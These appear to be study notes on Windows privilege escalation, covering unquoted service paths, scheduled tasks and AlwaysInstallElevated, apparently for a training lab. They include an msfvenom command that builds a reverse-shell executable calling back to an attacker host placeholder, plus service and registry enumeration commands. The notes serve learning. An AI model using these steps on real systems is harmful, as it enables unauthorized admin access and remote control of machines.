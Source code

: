 ## Unquoted Service Path 

when the service is launched, Windows follows a search order, example we have a service (e.g. srvc) which has a binary path set to `C:\Program Files\topservice folder\subservice subfolder\srvc.exe`.

- If the path is written between quotes, Windows will directly go to the correct location and launch service.exe. 

- if the path is not written between quotes and if any folder name in the path has a space in its name,Windows will append ".exe" and start looking for an executable,

we need to 

1. Being able to write to a folder on the path
2. Being able to restart the service

we can use winpeas or powerups script to find out unquoted path or we can use wmic.

`wmic service get name,displayname,pathname,startmode`

find path that is not written between quotes and make sure other conditions to exploit this vulnerability are met.

you check binary path of servcie : `sc qc unquotedsvc`


generate an executable. 

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=[KALI or AttackBox IP Address] LPORT=[The Port to which the reverse shell will connect] -f exe > executable_name.exe`

set multi handler in msf.


start the service.
`sc start unquotedsvc`


## Quick wins

**Scheduled Tasks**

Looking into scheduled tasks on the target system, you may see a scheduled task that either lost its binary or using a binary you can modify. 

`schtasks` used to list scheduled task.

**AlwaysInstallElevated**

Windows installer files(.msi files) used to install applications on the system. sometimes this can be configured to run with higher privileges if the installation requires administrator privileges. This could potentially allow us to generate a malicious MSI file that would run with admin privileges. 

it required two registry values to be set using cmd line.

```
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

```
